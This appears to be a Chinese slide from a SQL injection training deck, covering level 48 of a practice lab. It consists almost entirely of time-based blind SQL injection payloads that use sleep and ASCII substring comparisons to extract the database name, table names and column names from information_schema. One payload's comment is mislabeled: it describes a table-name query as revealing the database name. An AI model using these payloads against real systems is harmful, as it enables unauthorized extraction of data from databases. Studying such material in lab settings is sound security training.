

# 第四十八关
猜解库名长度
and if (length(database())=8,sleep(5),1) -- qwe
利用ASCII码猜解当前数据库名称：
 and if ((ascii(substr(database(),1,1))=115),sleep(5),1) -- qwe 延时，说明数据库名称第一位是s
and if ((ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101),sleep(5),1) -- qwe 延时，说明数据库名称第一位是e
猜表名：
 and if ((ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101),sleep(5),1) -- qwe 延时，说明数据库表名的第一个的第一位是e
猜字段名
and if ((ascii(substr((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1))=105),sleep(5),1) -- qwe 如果返回正常，说明emails表中的列名称第一位是i